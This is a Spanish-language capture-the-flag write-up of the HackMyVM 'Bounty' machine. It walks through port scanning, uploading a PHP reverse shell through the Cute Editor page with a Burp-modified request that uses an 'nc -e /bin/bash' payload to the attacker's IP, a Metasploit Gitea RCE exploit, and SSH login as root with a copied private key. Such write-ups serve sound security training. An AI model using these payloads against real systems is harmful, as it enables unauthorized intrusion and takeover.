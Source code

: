 ```yaml
---
layout: post
title: Bounty - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/bounty/bounty.png#center)

## Reconocimiento 

Lo primero, realizo un escaneo de los puertos abiertos en la máquina.

```
$ sudo nmap -p- 192.168.1.48 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 14:33 UTC
Nmap scan report for 192.168.1.48
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:67:D0:A4 (Oracle VirtualBox virtual NIC)
```

Utilizando curl para cargar la página principal del servidor, encuentro lo que parece un cronjob.

```
$ curl 192.168.1.48                             
* * * * * /usr/bin/php /var/www/html/document.html
```

Cada minuto se está utilizando PHP para ejecutar el código que haya en "document.html"

Tambien utilizo "nikto" para continuar con la enumeración.

```
nikto --host 192.168.1.48 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.48
+ Target Hostname:    192.168.1.48
+ Target Port:        80
+ Start Time:         2023-01-01 14:37:45 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0
+ Server leaks inodes via ETags, header found with file /, fields: 0x635104a1 0x33 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.html, /default.htm, /index.php
+ 7535 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2023-01-01 14:38:07 (GMT0) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Lo importante de aquí es el archivo de index llamado "default.htm". Al navegar a ese archivo, me encuentro con un programa llamado "Cute editor".

![img](/imgs/write-ups/hackmyvm/bounty/bounty_1.png#center)

## Explotación

Navego a "Demo > Edit Static HTML" y utilizando burpsuite, subo una reverse shell al servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_2.png#center)

Para subir la shell:

- Navego primero a "Edit Static HTML".
- Sin escribir nada, pulso guardar.
- Edito la petición en burpsuite para subir la shell.
- Creo un listener y espero la conexión.

Petición en burp modificada:

```
POST /Edithtml.php?postback=true HTTP/1.1
Host: 192.168.1.48
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://192.168.1.48
Connection: close
Referer: http://192.168.1.48/Edithtml.php
Cookie: PHPSESSID=91fdqufp9aq0pcn9baa7csv3pg
Upgrade-Insecure-Requests: 1

Editor1=<?php+system('nc+-e+/bin/bash+192.168.1.79+1234');?>&Editor1ClientState=&Save.x=9&Save.y=6&textbox1=%3C%3Fphp%2Bsystem%28%27nc+-e+%2Fbin%2Fbash+192.168.1.79+1234%27%29%3B%3F%3E++++++++++++
```

Al cabo de un minuto, obtengo una shell como Hania gracias al cronjob visto anteriormente.

```
nc -lnvp 1234            
Connection from 192.168.1.48:33668
hania@bounty:~$ :)
```

## Escalado de privilegios

Hania tiene permiso para ejecutar el binario Gitea que se encuentra en /home/primavera como el usuario Primavera.

```
hania@bounty:~$ sudo -l
Matching Defaults entries for hania on bounty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hania may run the following commands on bounty:
    (primavera) NOPASSWD: /home/primavera/gitea \"\"
```

Tras ejecutarlo, se inicia un servicio de Gitea en el puerto 3000. Como se puede ver en la parte inferior izquierda del navegador, la versión de Gitea que se está ejecutando es la 1.16.6.

```
Impulsado por Gitea Versión: 1.16.6 Página: 0ms Plantilla: 0ms 
```
Para escalar privilegios, lo primero que hago es registrar un usuario nuevo en el servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_3.png#center)

Una vez creada la cuenta, utilizo metasploit para conseguir una sesión.

Es importante cambiar el target por defecto que tiene seleccionado metasploit a "Unix Command", ya que de otra forma no funcionará.

```
[...]
msf6 exploit(multi/http/gitea_git_fetch_rce) > set target Unix\ Command 
target => Unix Command
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 192.168.1.79:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.1.79:8080/
[*] Command shell session 1 opened (192.168.1.79:4444 -> 192.168.1.48:47888) at 2023-01-01 15:04:58 +0000
[*] Server stopped.

whoami
primavera
```

Una vez siendo Primavera, encuentro un nota en su directorio home.

```
$ cat note.txt    
Im the shadow admin. Congrats.
```

Suponiendo que Primavera es "admin", pruebo copiando la clave privada (id_rsa) de Primavera a mi máquina y después intento logearme mediante ssh.

Para mi sorpresa, sí funciona.

```
ssh root@192.168.1.48 -i primavera_id_rsa
[...]
Last login: Thu Oct 20 11:55:16 2022
root@bounty:~# :)
```

Muchas gracias  **Sml** por esta máquina.
